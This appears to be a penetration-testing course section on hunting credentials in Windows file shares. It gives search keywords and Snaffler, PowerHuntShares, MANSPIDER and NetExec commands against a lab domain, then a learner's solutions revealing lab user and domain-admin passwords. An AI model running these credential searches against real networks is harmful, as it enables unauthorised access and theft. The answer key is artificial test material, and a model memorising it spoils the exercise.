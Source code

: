 Nearly all corporate environments include network shares used by employees to store and share files across teams. While these shared folders are essential, they can unintentionally become a goldmine for attackers, especially when sensitive data like plaintext credentials or configuration files are left behind.

In this section, we'll explore how to hunt for credentials across network shares from both Windows and Linux systems using common tools, along with general techniques attackers use to uncover hidden secrets.

#### Common credential patterns
- Look for keywords within files such as `passw`, `user`, `token`, `key`, and `secret`.
- Search for files with extensions commonly associated with stored credentials, such as `.ini`, `.cfg`, `.env`, `.xlsx`, `.ps1`, and `.bat`.
- Watch for files with "interesting" names that include terms like `config`, `user`, `passw`, `cred`, or `initial`.
- If you're trying to locate credentials within the `INLANEFREIGHT.LOCAL` domain, it may be helpful to search for files containing the string `INLANEFREIGHT\`.
- Keywords should be localized based on the target; if you are attacking a German company, it's more likely they will reference a `"Benutzer"` than a `"User"`.
- Pay attention to the shares you are looking at, and be strategic. If you scan ten shares with thousands of files each, it's going to take a signifcant amount of time. Shares used by `IT employees` might be a more valuable target than those used for company photos.

With all of this in mind, you may want to begin with basic command-line searches (e.g., `Get-ChildItem -Recurse -Include *.ext \\Server\Share | Select-String -Pattern ...`) before scaling up to more advanced tools. Let's take a look at how we can use `MANSPIDER`, `Snaffler`, `SnafflePy`, and `NetExec` to automate and enhance this credential hunting process.

## Hunting from Windows
#### Snaffler
The first tool we will cover is [Snaffler](https://github.com/SnaffCon/Snaffler). This is a C# program that, when run on a `domain-joined` machine, automatically identifies accessible network shares and searches for interesting files. The `README` file in the Github repository describes the numerous configuration options in great detail, however a basic search can be carried out like so:

```cmd-session
c:\Users\Public>Snaffler.exe -s
```
Two useful parameters that can help refine Snaffler's search process are:
- `-u` retrieves a list of users from Active Directory and searches for references to them in files
- `-i` and `-n` allow you to specify which shares should be included in the search


#### PowerHuntShares
Another tool that can be used is [PowerHuntShares](https://github.com/NetSPI/PowerHuntShares), a PowerShell script that doesn't necessarily need to be run on a domain-joined machine. One of its most useful features is that it generates an `HTML report` upon completion, providing an easy-to-use UI for reviewing the results:
We can run a basic scan using `PowerHuntShares` like so:

```powershell
PS C:\Users\Public\PowerHuntShares> Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
```


## Hunting from Linux

#### MANSPIDER
If we don’t have access to a domain-joined computer, or simply prefer to search for files remotely, tools like [MANSPIDER](https://github.com/blacklanternsecurity/MANSPIDER) allow us to scan SMB shares from Linux. It's best to run `MANSPIDER` using the official Docker container to avoid dependency issues. Like the other tools, `MANSPIDER` offers many parameters that can be configured to fine-tune the search. A basic scan for files containing the string `passw` can be run as follows:

```shell
> docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.121 -c 'passw' -u 'mendres' -p 'Inlanefreight2025!'

[+] MANSPIDER command executed: /usr/local/bin/manspider 10.129.234.121 -c passw -u mendres -p Inlanefreight2025!
[+] Skipping files larger than 10.00MB
[+] Using 5 threads
[+] Searching by file content: "passw"
[+] Matching files will be downloaded to /root/.manspider/loot
[+] 10.129.234.121: Successful login as "mendres"
[+] 10.129.234.121: Successful login as "mendres"
```

#### NetExec
In addition to its many other uses, `NetExec` can also be used to search through network shares using the `--spider` option. This functionality is described in great detail on the [official wiki](https://www.netexec.wiki/smb-protocol/spidering-shares). A basic scan of network shares for files containing the string `"passw"` can be run like so:
```shell
> 

SMB         10.129.234.121  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:inlanefreight.local) (signing:True) (SMBv1:False)
SMB         10.129.234.121  445    DC01             [+] inlanefreight.local\mendres:Inlanefreight2025! 
SMB         10.129.234.121  445    DC01             [*] Started spidering
SMB         10.129.234.121  445    DC01             [*] Spidering .
<SNIP>
```

## Exercise
Use the credentials `mendres:Inlanefreight2025!` to connect to the target either by RDP or WinRM, then use the tools and techniques taught in this section to answer the questions below. For your convenience, `Snaffler` and `PowerHuntShares` can be found in `C:\Users\Public`.

## Questions

1. One of the shares mendres has access to contains valid credentials of another domain user. What is their password?
2. As this user, search through the additional shares they have access to and identify the password of a domain administrator. What is it?

---
1. We can spider the HR share with the string `passwd` :
```shell
> docker run --rm -v ./manspider:/root/.manspider blacklanternsecurity/manspider 10.129.234.173 -c 'pwd' -u 'mendres' -p 'Inlanefreight2025!'

(VERY BIG OUTPUT SO I GREPPED IT WITH passwd*)
...
...
...
[+] Auth backup password: INLANEFREIGHT\jbader:ILovePower333###
...
...
```
2. Make the same command with jbader user:
```shell
...
...
**Password:** `Str0ng_Adm1nistrat0r_P@ssword_2025!`
...
...
...
```